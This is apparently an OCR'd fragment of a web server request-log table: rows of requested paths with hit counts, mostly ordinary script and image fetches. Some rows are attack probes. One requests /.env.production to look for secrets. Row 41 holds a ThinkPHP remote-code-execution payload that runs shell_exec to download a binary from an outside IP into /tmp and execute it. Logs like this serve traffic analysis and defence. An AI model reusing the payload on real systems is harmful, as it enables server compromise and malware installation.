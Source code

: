 |  36 |                     6 | GET /Media/Images/F81B47A3.PNG HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  37 |                     6 | GET /.env.production HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  38 |                     6 | GET /js/jquery.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  39 |                     6 | GET /socket.io/socket.io.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  40 |                     6 | GET /js/jquery.mask.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  41 |                     6 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  42 |                     6 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  43 |                     6 | GET /js/moment.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  44 |                     6 | GET /Module1/js/Home_9b5766a815f5416da1d14b6622620932.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |